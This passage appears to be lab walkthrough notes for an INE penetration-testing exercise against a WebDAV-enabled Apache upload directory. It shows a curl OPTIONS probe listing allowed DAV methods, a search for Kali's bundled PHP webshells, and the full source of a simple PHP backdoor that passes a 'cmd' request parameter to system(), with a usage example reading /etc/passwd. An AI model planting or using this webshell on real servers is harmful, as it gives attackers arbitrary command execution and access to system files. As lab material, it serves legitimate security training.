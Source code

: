`curl -v -X OPTIONS http://demo.ine.local/uploads/`:
```http
* Host demo.ine.local:80 was resolved.
* IPv6: (none)
* IPv4: 192.48.93.3
*   Trying 192.48.93.3:80...
* Connected to demo.ine.local (192.48.93.3) port 80
> OPTIONS /uploads/ HTTP/1.1
> Host: demo.ine.local
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Wed, 27 Nov 2024 12:18:53 GMT
< Server: Apache
< DAV: 1,2
< DAV: <http://apache.org/dav/propset/fs/1>
< MS-Author-Via: DAV
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK 📌
< Content-Length: 0
< Content-Type: httpd/unix-directory
< 
* Connection #0 to host demo.ine.local left intact
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

`cp /usr/share/webshells/php/simple-backdoor.php ./shell.php`

`cat ./shell.php`:
```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```
